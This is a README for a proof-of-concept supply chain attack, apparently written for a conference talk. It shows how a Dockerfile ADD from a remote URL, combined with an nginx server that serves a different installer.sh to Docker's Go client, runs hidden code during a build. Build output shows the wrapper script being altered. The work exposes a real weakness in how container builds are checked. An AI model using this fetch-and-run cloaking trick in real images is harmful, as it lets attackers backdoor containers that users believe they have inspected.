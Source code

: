 # Rosenmontag
Supply chain attack proof of concept using ADD in a Dockerfile and a malicious nginx

# What is this about

We all know that curl-pipe-sudo-bash is a thing. Many think it is a bad thing. But we all use Docker now so this is not a problem any more...  
In preparation for a talk I was thinking about ways to attack supply chains in Kubernetes or Docker environments. That was when I remembered when I learned that ADD in Dockerfiles lets you [copy files from remote URLs](https://docs.docker.com/engine/reference/builder/#add) (thanks to [Matthias](https://twitter.com/uchi_mata) and [Chris](https://www.twitter.com/brompwnie) for their [Blackhat-EU19 talk](https://www.blackhat.com/eu-19/briefings/schedule/#reverse-engineering-and-exploiting-builds-in-the-cloud-17287) ).

So I tried to combine the evading techniques for curl-pipe-sudo-bash scenarios with Dockerfile ADD and remote URIs.

# Walkthrough

## Attackers part

The attacker provides a very useful application as a Docker container as open source. They also control a webserver that serves an installer. Depending on the request the webserver will serve a legitimate or a malicious installer.

Get sources from Github
```
git clone git@github.com:ramshazar/rosenmontag.git
cd rosenmontag/
```

Build the dockerfile of our malicous nginx and let it run
```
cd malicious-nginx/
docker build -t rosenmontag-nginx .
docker run -p 1337:80 -d rosenmontag-nginx
```

## Victims part

The victim wants to use a docker container by a third party. That is why they want to validate the Dockerfile and what is happening inside of it.

Get sources from Github (you should have done that already)
```
git clone git@github.com:ramshazar/rosenmontag.git
cd rosenmontag/
```

Take a look at the Dockerfile
```
cd evil-dockerfile/
cat Dockerfile
```

The content is straightforward. The docker build will use the official debian buster image and adds a wrapper file that later is going to start the process in the container.
After that the maintainer (the attacker) decided to download an installer from a remote location and confuses the victim with "security reasons".

The victim, knowing that copying installer from remote URLs is bad, decides to take a look at the installer.
```
curl http://localhost:1337/installer.sh
```

The output is very simple( do not copy this)
```
#!/bin/sh

echo "Installing everything needed by our application"
sleep 2
echo "Done"
```

Reassured our victim builds the container.
```
docker build -t awesome-container-from-rosenmontag:1 .
```

The output will look like this
```
Sending build context to Docker daemon  3.072kB
Step 1/5 : FROM debian:buster-slim
 ---> 837fd7c8d960
Step 2/5 : COPY my_wrapper-script.sh /my_wrapper_script.sh
 ---> 1eadaf5c3365
Step 3/5 : ADD http://localhost:1337/installer.sh /tmp/installer.sh
Downloading [==================================================>]     412B/412B
 ---> 82e3b8007746
Step 4/5 : RUN chmod +x /tmp/installer.sh; /bin/sh /tmp/installer.sh
 ---> Running in 742a8abdbb0b
Definitely not running exploit code here
Adding files to your container
Changing wrapper script. Sorry :(
Done
Removing intermediate container 742a8abdbb0b
 ---> 43af7108c6ac
Step 5/5 : CMD /my_wrapper-script.sh
 ---> Running in c4d425313d37
Removing intermediate container c4d425313d37
 ---> a377b993eca5
Successfully built a377b993eca5
Successfully tagged awesome-container-from-rosenmontag:1
```

As you can see the malicious scriptechos debug output to visualize where the attack happend.  
The resulting image now differs from the expectation of the victim. The attacker added additional files to the image and changed the wrapper. They would be able to add a backdoor too.

# Explanation of the attack

The malicious nginx config has a map that checks if the User-Agent is set to something like "Go-http-client". I assume that most people checking the content of the installer would use curl, wget or a browser to verify that the installer itself is not malicious. Docker build uses a go library to get the installer from the remote url. The malicious nginx than just serves a different installer.sh file.

# How can I defend against attacks like this

This is a question for Future-Matthias ¯\_(ツ)_/¯

# This already has been done by $other_person

Awesome! I would love to read about that! 

# What das Rosenmontag mean

It is [Rosenmontag](https://en.wikipedia.org/wiki/Rosenmontag) today.

